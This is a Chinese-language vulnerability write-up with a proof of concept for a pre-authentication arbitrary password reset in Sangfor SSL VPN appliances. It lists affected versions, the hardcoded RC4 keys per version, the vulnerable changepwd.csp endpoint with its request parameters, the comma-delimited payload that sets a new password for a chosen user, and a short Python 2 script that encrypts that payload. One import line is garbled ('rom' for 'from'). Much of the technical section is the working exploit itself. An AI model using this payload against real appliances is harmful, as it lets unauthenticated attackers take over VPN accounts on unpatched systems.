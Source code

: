 深信服 SSL VPN - Pre Auth 任意密码重置
======================================

一、漏洞简介
------------

二、漏洞影响
------------

高版本(如M7.6.8R2) 直接删除相关函数

低版本(如M7.6.6R1) 升级版存在此漏洞

打了 5.x-7.x 补丁的无法利用

三、复现过程
------------

### 漏洞分析

差不多的逻辑

![1.png](./resource/深信服SSLVPN-PreAuth任意密码重置/media/rId25.png)

唯独多了个 RC4 解密，key 是 20100720

![2.png](./resource/深信服SSLVPN-PreAuth任意密码重置/media/rId26.png)

在数据提取中写的有点奇怪,使用,和=作为分隔符，所以我们的数据也要类似如：

`,username=test,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=QQ123456,`

![3.png](./resource/深信服SSLVPN-PreAuth任意密码重置/media/rId27.png)

M7.6.6R1 key 为 `20181118`

M7.6.1 key 为 `20100720`

其他版本另寻

    https://www.0-sec.org/por/changepwd.csp

    sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN

![4.png](./resource/深信服SSLVPN-PreAuth任意密码重置/media/rId28.png)

### poc

> poc.py

    rom Crypto.Cipher import ARC4
    from binascii import a2b_hex


    def myRC4(data,key):
        rc41 = ARC4.new(key)
        encrypted = rc41.encrypt(data)
        return encrypted.encode('hex')


    def rc4_decrpt_hex(data,key):
        rc41 = ARC4.new(key)
        return rc41.decrypt(a2b_hex(data))
    key = '20100720'
    data = r',username=2003010002,ip=127.0.0.1,grpid=1,pripsw=suiyi,newpsw=zxc123,'
    a = myRC4(data, key)
    print a
    print len(a)

参考链接
--------

> https://blog.sari3l.com/
